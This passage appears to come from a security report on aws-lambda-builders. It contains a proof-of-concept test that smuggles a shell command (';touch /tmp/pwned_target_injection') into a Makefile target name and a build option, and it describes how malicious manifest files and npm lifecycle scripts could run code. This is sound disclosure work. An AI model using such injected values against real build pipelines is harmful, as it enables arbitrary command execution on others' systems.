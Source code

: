     **Test Case 2: Malicious Makefile Target Name Injection**
    1. Create a malicious Makefile (e.g., `malicious_makefile_target`) with the following content:
        ```makefile
        build-HelloWorldFunction;touch /tmp/pwned_target_injection::
            @echo "Malicious Makefile Executed"
        ```
    2. Create a temporary directory, e.g., `/tmp/test_vulnerability_target`.
    3. Save the `malicious_makefile_target` inside `/tmp/test_vulnerability_target`.
    4. Execute the following Python code:
        ```python
        import tempfile
        from aws_lambda_builders.builder import LambdaBuilder
        import os
        import shutil

        source_dir = "/tmp/test_vulnerability_target"
        artifacts_dir = tempfile.mkdtemp()
        scratch_dir = tempfile.mkdtemp()
        manifest_path = os.path.join(source_dir, "malicious_makefile_target")

        builder = LambdaBuilder(language="provided", dependency_manager=None, application_framework=None)

        try:
            builder.build(
                source_dir,
                artifacts_dir,
                scratch_dir,
                manifest_path,
                runtime="provided",
                options={"build_logical_id": "HelloWorldFunction;touch /tmp/pwned_target_injection"},
            )
        except Exception as e:
            print(f"Build failed as expected or encountered an error: {e}")
        finally:
            if os.path.exists("/tmp/pwned_target_injection"):
                print("Vulnerability confirmed (Target Injection): /tmp/pwned_target_injection file created.")
                os.remove("/tmp/pwned_target_injection")
            else:
                print("Vulnerability check failed (Target Injection): /tmp/pwned_target_injection file not found.")

            shutil.rmtree(artifacts_dir)
            shutil.rmtree(scratch_dir)
            shutil.rmtree(source_dir)
        ```
    5. Run the Python script.
    6. Check the output. If "Vulnerability confirmed (Target Injection): /tmp/pwned_target_injection file created." is printed, the command injection vulnerability via malicious Makefile target name is validated.

### Potential Code Injection in Dependency Management via Manifest Files

- Description:
    1. Several workflows within `aws-lambda-builders` rely on manifest files (e.g., `requirements.txt`, `package.json`, `pom.xml`, `build.gradle`, `Gemfile`, `*.csproj`, `Cargo.toml`, `go.mod`) to manage dependencies.
    2. These manifest files, while designed for dependency specification, can potentially be manipulated to execute arbitrary code during the dependency resolution process.
    3. Attack vectors vary depending on the package manager. Examples include:
        - **Python (pip/requirements.txt):** Specifying direct URLs to packages, potentially pointing to malicious packages hosted on compromised servers or attacker-controlled locations. Malicious packages can execute code during installation through `setup.py`.
        - **Node.js (npm/package.json):** Utilizing lifecycle scripts like `preinstall`, `postinstall`, which are automatically executed by `npm install` and can contain arbitrary commands. Similar mechanisms may exist in other package managers.